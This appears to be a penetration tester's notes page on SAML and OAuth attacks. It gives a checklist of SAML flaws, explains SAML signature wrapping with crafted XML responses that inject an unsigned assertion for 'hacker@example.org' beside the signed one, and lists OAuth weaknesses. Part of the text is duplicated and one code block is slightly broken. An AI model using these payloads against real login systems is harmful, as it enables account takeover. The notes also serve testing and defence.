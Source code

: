 # SAML / OAUTH

## SAML Checklist

* Signature stripping
* Comment injection inside user : \<!--1--> or with encoding
* Search lib used and discover key
* Service Provider does not check the certificate's fingerprint then attackers can provide their own certificate with a matching signature, and the application will trust the signature.
* Since the Service Provider #2 does not check the claim, we will need to get a claim issued for the Service Provider #1 and pass it to Service Provider #2.
* SAMLResponse from one Service Provider to another Service Provider. Identify with service 2 and forward it to service 1
* SAML wrapping

### SAML Wrapping

When the Identity Provider sends the SAMLResponse to the Service Provider, the Service Provider needs to do two things: Verify the signature&#x20;

Get the information from the message SAML Wrapping attacks are relying on the fact that step #2 may not be parsing the XML message in the same way as step #1. If we take a simplified version of the SAMLResponse:

```xml
<samlp:Response>
  <Assertion ID="_9eb16cd0-5fd9-0135-899f-0242ac110029">
    <ds:Signature>
      <ds:SignedInfo>
        <ds:Reference URI="#_9eb16cd0-5fd9-0135-899f-0242ac110029">
        </ds:Reference>
      </ds:SignedInfo>
      <ds:SignatureValue>...</ds:SignatureValue>
    </ds:Signature>
    <Subject>
      <NameID>louis@example.org</NameID>
    </Subject>
  </Assertion>
</samlp:Response>

```

SignedInfo pointing to the Assertion that was signed. Implementations should rely on this reference to fetch the NameID. The issue here comes from the fact that when retrieving the NameID, the SAML library or the application leveraging the SAML library may not return the same NameID as the one it verified.&#x20;

The attack For this challenge, the application will use the first NameID it can find in the SAMLResponse. Therefore you will need to craft a SAMLResponse that looks something like:

```xml
<samlp:Response>
  <Assertion ID="whatever_you_want">
    <Subject>
      <NameID>hacker@example.org</NameID>
    </Subject>
  </Assertion>
  <Assertion ID="_9eb16cd0-5fd9-0135-899f-0242ac110029">
    <ds:Signature>
      <ds:SignedInfo>
        <ds:Reference URI="#_9eb16cd0-5fd9-0135-899f-0242ac110029">
        </ds:Reference>
      </ds:SignedInfo>
      <ds:SignatureValue>...</ds:SignatureValue>
    </ds:Signature>
    <Subject>
      <NameID>louis@example.org</NameID>
    </Subject>
  </Assertion>
</samlp:Response>
```

You will obviously need to base this SAMLResponse from the initial SAMLResponse and most fields not showed in the XML above should be kept

When the Identity Provider sends the SAMLResponse to the Service Provider, the Service Provider needs to do two things:&#x20;

* Verify the signature&#x20;
* Get the information&#x20;

from the message SAML Wrapping attacks are relying on the fact that step #2 may not be parsing the XML message in the same way as step #1. If we take a simplified version of the SAMLResponse:

```xml
/<samlp:Response>
  <Assertion ID="_9eb16cd0-5fd9-0135-899f-0242ac110029">
    <ds:Signature>
      <ds:SignedInfo>
        <ds:Reference URI="#_9eb16cd0-5fd9-0135-899f-0242ac110029">
        </ds:Reference>
      </ds:SignedInfo>
      <ds:SignatureValue>...</ds:SignatureValue>
    </ds:Signature>
    <Subject>
      <NameID>louis@example.org</NameID>
    </Subject>
  </Assertion>
</samlp:Response>
```

We can see that there is a Reference in the SignedInfo pointing to the Assertion that was signed. Implementations should rely on this reference to fetch the NameID. The issue here comes from the fact that when retrieving the NameID, the SAML library or the application leveraging the SAML library may not return the same NameID as the one it verified.

```xml
<samlp:Response>
  <Assertion ID="_9eb16cd0-5fd9-0135-899f-0242ac110029">
    <ds:Signature>
      <ds:SignedInfo>
        <ds:Reference URI="#_9eb16cd0-5fd9-0135-899f-0242ac110029">
        </ds:Reference>
      </ds:SignedInfo>
      <ds:SignatureValue>...</ds:SignatureValue>
    </ds:Signature>
    <Subject>
      <NameID>louis@example.org</NameID>
    </Subject>
  </Assertion>
  <Assertion ID="whatever_you_want">
    <Subject>
      <NameID>hacker@example.org</NameID>
    </Subject>
  </Assertion>
</samlp:Response>
```

You will obviously need to base this SAMLResponse from the initial SAMLResponse and most fields not showed in the XML above should be kept

## OAUTH Checklist

* Authorization Server CSRF
* Authorization Server OpenRedirect [https://sec.okta.com/articles/2021/02/stealing-oauth-tokens-open-redirects/](https://sec.okta.com/articles/2021/02/stealing-oauth-tokens-open-redirects/)
* Authorization state fixation
* Authorization server XSS (CSRF bypass)

